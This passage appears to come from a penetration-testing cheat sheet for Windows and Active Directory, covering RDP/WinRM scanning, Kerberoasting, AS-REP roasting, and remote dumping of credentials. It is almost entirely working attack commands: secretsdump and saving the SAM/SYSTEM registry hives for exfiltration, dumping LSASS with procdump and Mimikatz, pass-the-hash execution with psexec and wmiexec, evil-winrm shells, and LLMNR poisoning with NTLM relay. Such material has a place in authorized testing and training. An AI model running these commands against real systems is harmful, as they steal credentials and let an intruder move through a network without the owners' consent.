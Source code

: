 3) RDP/WinRM checks
```bash
# RDP encryption and NTLM info (and MS12-020 legacy vuln)
nmap -p3389 --script rdp-enum-encryption,rdp-ntlm-info,rdp-vuln-ms12-020 -oA scans/${TARGET}_rdp $TARGET

# BlueKeep check (optional tool)
# git clone https://github.com/robertdavidgraham/rdpscan && cd rdpscan && make
# ./rdpscan $TARGET

# WinRM ports and headers
nmap -p5985,5986 --script http-headers,http-methods,ssl-enum-ciphers -oA scans/${TARGET}_winrm $TARGET

# Validate WinRM auth with known creds (if any)
crackmapexec winrm $TARGET -u "$USER" -p "$PASS"
```

4) AD-oriented enumeration (if target is in a domain)
```bash
# Kerberoasting (find service accounts with SPNs and request TGS)
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN/$USER:$PASS

# AS-REP roasting (users without preauth)
GetNPUsers.py $DOMAIN/ -dc-ip $DC_IP -no-pass -usersfile users.txt
```

5) Cred harvesting (authorized)
```bash
# Dump SAM/SYSTEM remotely with admin creds
secretsdump.py $DOMAIN/$USER:$PASS@$TARGET

# If local shell: save registry hives (then exfiltrate for offline cracking)
reg save HKLM\SAM C:\Windows\Temp\SAM.bak
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM.bak

# LSASS (if allowed and unprotected): use procdump then Mimikatz offline
# procdump64.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp
# mimikatz.exe "sekurlsa::minidump C:\Windows\Temp\lsass.dmp" "sekurlsa::logonpasswords" exit
```

6) Remote execution (with creds or hashes)
```bash
# Pass-the-Hash examples (replace LM:NT with real hash; LM often 00000000000000000000000000000000)
psexec.py $DOMAIN/$USER@$TARGET -hashes 00000000000000000000000000000000:NTLM_HASH
wmiexec.py $DOMAIN/$USER@$TARGET -hashes 00000000000000000000000000000000:NTLM_HASH

# WinRM interactive shell (with clear-text creds)
evil-winrm -i $TARGET -u "$USER" -p "$PASS"
```

7) LLMNR/NBT-NS poisoning and NTLM relay (only in lab/authorized environments)
```bash
# Poison LLMNR/NBT-NS to capture NTLMv2 hashes
sudo responder -I tun0 -rdwv

# If SMB signing is not required on a target, prepare relay
echo $TARGET > targets.txt
sudo ntlmrelayx.py -tf targets.txt -smb2support
# Ensure Responder is configured NOT to SMB/HTTP-auth itself when relaying (Responder.conf).
```
